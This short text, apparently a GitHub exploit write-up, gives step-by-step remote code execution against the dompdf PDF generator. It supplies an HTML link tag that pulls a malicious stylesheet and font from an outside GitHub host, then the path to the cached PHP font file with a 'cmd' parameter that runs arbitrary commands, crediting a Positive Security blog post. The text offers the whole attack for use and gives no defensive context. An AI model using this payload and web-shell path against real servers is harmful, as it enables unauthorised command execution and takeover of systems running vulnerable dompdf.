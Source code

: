 inject this html tag to the pdf generator and it will access the exploit font that will then get caches and we can access it from the webserver


<link rel=stylesheet href="https://raw.githubusercontent.com/sneaky-wizard/dompdf_rce/main/exploit.css" />

to access the cached font and execute any command you want

[baseurl]/dompdf/lib/fonts/exploitfont_normal_4cbdc86ff75b10ac55846884a529e2f9.php?cmd=[command]



based on https://positive.security/blog/dompdf-rce
